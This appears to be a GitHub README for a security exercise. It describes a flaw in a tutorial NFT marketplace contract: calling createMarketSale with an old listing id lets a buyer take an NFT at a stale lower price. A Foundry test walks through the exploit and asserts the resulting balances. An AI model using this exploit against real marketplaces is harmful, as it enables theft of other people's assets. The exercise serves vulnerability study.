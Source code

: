 # NFT marketplace hack

Vulnerability of the most popular nft marketplace [tutorial](https://www.youtube.com/watch?v=GKJBEEXUha0&t)

## The Hack

An nft can be bought with the information of its previous listings by calling ```createMarketSale``` with older data and 

A hacker can buy any NFT listed with an older listing data by calling ```createMarketSale``` on a previous listing id.
For example, if an NFT is currently listed at 10 ether and it was listed at a 1 ether, a hacker can get buy it for 1 ether.

The 1 ether is transfered to the old lister instead of the current one.

    // Start seller has 1 NFT - 10 ether
    //       buyer has 10 ether
    //       hacker has 10 ether
    
    // Minter-Seller lists its nft for 1 ether
    vm.prank(seller);
    marketplace.createMarketItem{value:0 ether}(address(nft), 1, 1 ether);


    // buyer buys the nft for 1 ether & lists it for 10 ether
    
    vm.startPrank(buyer);
    marketplace.createMarketSale{value:1 ether}(address(nft), 1);
    nft.approve(address(marketplace), 1);
    marketplace.createMarketItem{value:0 ether}(address(nft), 1, 10 ether);
    vm.stopPrank();


    // hacker is able to buy the nft for 1 eth using the old listing data.
    // Buyer loses its nft
    
    vm.startPrank(hacker);
    marketplace.createMarketSale{value:1 ether}(address(nft), 1);
    
    assertEq(seller.balance, 12 ether);
    assertEq(buyer.balance, 9 ether);
    assertEq(hacker.balance, 9 ether);
    assertEq(nft.balanceOf(hacker), 1);

    // End (hacked) seller has 12 ether
    //              buyer has 9 ether
    //              hacker has 9 ether & 1 NFT


    // Expected    seller has 11 ether
    //              buyer has 19 ether
    //              NotHacker has 0 ether & 1 NFT

### Disclaimer
*The purpose of this repository is a simple security exercise & do not encourage to hack smart contracts in the real world.*